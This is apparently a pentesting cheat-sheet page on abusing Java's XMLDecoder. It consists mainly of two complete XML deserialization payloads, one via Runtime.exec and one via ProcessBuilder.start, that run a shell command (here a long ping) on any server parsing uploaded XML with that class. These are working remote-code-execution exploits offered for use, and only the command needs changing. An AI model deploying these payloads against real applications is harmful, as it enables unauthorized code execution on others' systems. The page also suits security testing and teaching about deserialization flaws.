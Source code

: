 # XMLDecoder

## XMLDecoder

XMLDecoder is a java class which creates object from XML files.

If this class is used and the user is able to upload XML files, we can try to abuse the following methods

### Runtime object and exec method

We can create a Runtime object using :

```csharp
<object class="java.lang.Runtime" method="getRuntime">
```

And call the exec method :

```csharp
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="3">
          <void index="0">
              <string>/usr/bin/ping</string>
          </void>
          <void index="1">
              <string>-c</string>
          </void>
          <void index="2">
              <string>9999</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

### ProcessBuilder object and start method

```csharp
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>/usr/bin/ping</string>
      </void>
      <void index="1">
         <string>-c</string>
      </void>
      <void index="2">
         <string>9999</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```



